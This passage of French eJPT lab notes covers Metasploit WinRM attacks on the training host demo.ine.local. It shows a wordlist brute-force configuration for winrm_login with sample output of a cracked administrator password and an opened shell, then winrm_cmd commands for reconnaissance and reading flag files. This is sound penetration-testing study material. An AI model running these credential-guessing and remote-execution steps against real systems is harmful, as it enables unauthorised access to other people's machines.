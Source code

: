 
### Configuration optimisée winrm_login
```bash
# Configuration complète pour eJPT
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything    # Obligatoire même avec wordlists
set THREADS 16
set STOP_ON_SUCCESS true
exploit
```

### Résultats brute force WinRM
```bash
# Sortie typique de succès :
[+] 192.168.1.100:5985 - Login Successful: WORKGROUP\administrator:tinkerbell
[*] Command shell session 1 opened (192.168.1.50:12345 -> 192.168.1.100:5985)

# Session automatique créée
sessions -l
sessions -i 1
```

---

## ⚡ 4. Exécution de commandes WinRM

### Module winrm_cmd (Exécution unitaire)
```bash
# Module d'exécution de commandes
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit

# Autres commandes utiles
set CMD hostname
set CMD systeminfo
set CMD "dir C:\"
set CMD "type C:\flag.txt"
exploit
```

### Commandes Windows utiles via WinRM
```bash
# Informations système
set CMD whoami
set CMD hostname
set CMD systeminfo
set CMD "whoami /all"

# Navigation fichiers
set CMD "dir C:\"
set CMD "dir C:\Users"
set CMD "type C:\flag.txt"
set CMD "findstr /s flag C:\*"

# Énumération réseau
set CMD ipconfig
```